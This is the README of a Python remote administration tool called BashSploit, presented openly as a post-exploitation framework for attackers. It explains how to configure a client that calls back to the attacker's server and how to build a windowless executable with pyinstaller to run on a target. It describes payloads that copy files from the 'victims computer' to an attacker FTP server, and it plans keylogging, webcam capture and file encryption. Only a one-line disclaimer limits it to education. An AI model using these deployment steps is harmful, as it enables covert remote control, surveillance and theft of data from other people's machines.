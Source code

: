 # BashSploit

## Overview

BashSploit is a multi-client Remote Administration Tool (RAT) and post-exploitation framework. It provides attackers with a reverse shell and various payloads once deployed on a target machine.

**Disclaimer**: Unauthorized access to computer systems is illegal. This tool is intended solely for educational and proof-of-concept purposes.

## Features
* [x] Reverse shell
* [x] File download from the client machine
* [x] File upload to the client machine
* [ ] Webcam snapshot and livestream
* [ ] Audio recording and streaming
* [ ] Screenshot capture
* [ ] File encryption on the client machine
* [ ] Wallpaper modification on the client machine
* [ ] Keylogging

## Supported Platforms
- The `reverse shell` payload has been tested on Linux and Windows.
- Other payloads, such as `screenshot` and `wallpaper-changing`, have been tested only on Windows.

## Setup/Installation Requirements

### Prerequisites
* Python 3
* Virtual environment setup:
```sh
python -m venv virtual
# Unix
source virtual/bin/activate
# Windows CMD
virtual\Scripts\activate
```

* `pip install -r requirements.txt`

## Usage

### Server
- `python runserver.py` for the server to listen for connections.
- edit `server/settings.py` to configure TCP server and FTP server settings.
- Enter Host/Server address, to get an interactive prompt where you are able to view connected clients, select a specific client, and get a reverse shell

For help
```
Bashsploit> help
help:	Shows this help list
list:	show  connected targets
about:	print details about Bashsploit
show payloads:	show additional payloads
select:	Selects a target by its index. Takes index as a parameter
quit:	Stops current connection with a target. To be used when target is selected
shutdown:	Shuts server down
```
### Client & server - getting a reverse shell.
- First edit the clients configurations in `client/settings.py`.
```python
......
SERVER_ADDR= '127.0.0.1' # server address
SERVER_PORT=999 #server port, should be an integer not string
RETRY_TIME=5 #in seconds
......
```
- `python shellverse.py` on the client machine to make a tcp socket connection to the server
- check the running server instance and connect to client using `select` command.

### Payloads
- Refer to `payloads/abstract_payload_handler.py` to see how to write a payload class.
- To uses a payload add it to the payload registry in `payloads/payload_register.py`.
- Only payloads whose platform match the configured platform in `client/settings.py` will be selected.
- Shellverse comes with some payload examples, you can easily add yours by implementing `AbstractPayloadHandler` interface.
- When I get time i'll write a wiki for this payloads
```
[1]ftp-upload: uploads a file from the attackers ftp server to the victims computer.
          usage~ ftp-upload file-path

[2]ftp-download: downloads a file/folder from the victims computer to our ftp server.
            usage~ftp-download file-path
```

### Making a windows executable and getting a reverse connection
- You can make a noconsole exe to run on the target.
`pyinstaller --noconsole --onefile shellverse.py`
run `pyinstaller --help` for more options such as an icon for the exe file.

### Getting a reverse connection
- Execute the exe in the targets machine, run the server script on the Host machine and a wait a reverse connection.
```
shellverse> 
Connection has been established: DESKTOP-R5UIHJE (192.168.0.31)
```

## Contributing
- Fork  the repo, add payloads(using the documented method) / fix bugs or any other contribution, and make a pull request.

## License
This project is Licensed under the MIT open source license
